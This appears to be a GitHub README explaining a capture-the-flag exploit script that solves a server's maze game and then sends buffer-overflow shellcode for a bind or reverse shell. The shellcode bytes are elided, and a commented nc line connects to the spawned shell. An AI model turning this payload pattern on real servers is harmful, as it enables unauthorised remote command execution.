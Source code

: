 # Nethack.us-RobotMaze-RCE

The main file you need to look at is 'solve_maze.py'

## What the script actually does

This is an **automated maze-solver + buffer overflow exploit**.

It connects to a remote server, completes a mini-game (maze), then uses a vulnerability (likely in how the server processes input) to inject shellcode.

The shellcode will then start a reverse shell and connect back to the attacker.

Once exploited, the attacker gains **remote command execution** on the target.


# Script 

## 1. Imports & Setup

```python
import os, sys
import socket, errno
from time import sleep

maze_size = 3741
conn = ('104.236.116.183', 9000)
```

- **`maze_size`** → size of the maze data in bytes expected from the server.  
- **`conn`** → the IP and port of the challenge server.  

---

## 2. Shellcode Definitions

```python
def shellcode():
    ...
    bind_shell = b"..."
    rev2 = b"..."
```

- **`bind_shell`** → raw x86 shellcode that opens a bind shell on port `4444`.  
- **`rev2`** → reverse shell shellcode that connects back to a specific IP and port.  
- **NOP sleds** (`\x90`) are added before and after to help the shellcode land in memory safely.  
- At the end:  
  ```python
  b'\xd3\x79\x0b\x08' # address to jump to ECX
  ```
  is likely an address in the vulnerable process's memory (little-endian format).  

The function **returns** the complete payload.

---

## 3. Socket Connection Functions

```python
def connect_sock():
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect(conn)
    sock.setblocking(False)
    return sock
```

- Connects to the target server.
- Sets non-blocking mode to avoid hanging during reads.

```python
def read_sock(sock, size):
    data = b""
    while len(data) < size:
        try:
            data += sock.recv(4096)
        except IOError as e:
            sleep(.2)
            if e.args[0] == errno.EAGAIN:
                continue
            else:
                print(e)
                sys.exit(0)
    return data
```

- Reads exactly `size` bytes from the socket, retrying if no data is ready (`EAGAIN`).

---

## 4. Maze Solver

Uses **recursive depth-first search (DFS)** to find the path.

```python
def solve_maze(y, x, maze):
    try:
        if maze[y][x] == 2:  # Goal
            return ""
        elif maze[y][x] == 1:  # Wall
            return "E"
        elif maze[y][x] == 3:  # Already visited
            return "E"
    except IndexError:
        return "E"

    maze[y][x] = 3  # mark visited

    ret = solve_maze(y+1, x, maze)
    if ret != "E": return "s" + ret

    ret = solve_maze(y, x-1, maze)
    if ret != "E": return "a" + ret

    ret = solve_maze(y-1, x, maze)
    if ret != "E": return "w" + ret

    ret = solve_maze(y, x+1, maze)
    if ret != "E": return "d" + ret

    return "E"
```

- Maze encoding:  
  - `0` → free space  
  - `1` → wall  
  - `2` → goal  
  - `3` → visited  

- Movement mapping:  
  - `"w"` = up  
  - `"s"` = down  
  - `"a"` = left  
  - `"d"` = right  

---

## 5. Maze Parsing

```python
def parse_maze(data):
    maze = []
    for y in range(43):
        xa = []
        for x in range(43):
            rx = (y*87) + (x*2)
            sym = data[rx:rx+2]
            if sym == b"[]":
                xa.append(1)  # wall
            elif sym == b"  " or sym == b"<>":
                xa.append(0)  # empty
        maze.append(xa)
    maze[42][41] = 2  # exit
    return maze
```

- Converts ASCII maze into a 2D grid of numbers.  
- Maze is **43 × 43 tiles**, each tile taking 2 bytes in ASCII form.  
- Bottom-right corner is marked as the exit.

---

## 6. Main Exploit Flow

```python
if __name__ == "__main__":
    sock = connect_sock()
    data = read_sock(sock, maze_size)

    maze = parse_maze(data)
    solve = solve_maze(0, 1, maze)

    print(data.decode())
    sock.send(solve.encode())

    recv_len = (len(solve) - 1) * maze_size + 56
    data = read_sock(sock, recv_len)

    print(data.decode())
    sock.send(shellcode())

    print("Dropping to shell ... ACTIVE\n")
    # os.system("nc " + conn[0] + " 4444")
```

**Step-by-step:**
1. Connects to the server.
2. Reads the maze data.
3. Parses the maze into a 2D grid.
4. Solves it from starting point `(0, 1)`.
5. Sends the movement string to the server.
6. Reads additional response data (likely per-move updates).
7. Sends the shellcode payload.
8. Prepares to connect to the shell (commented out).

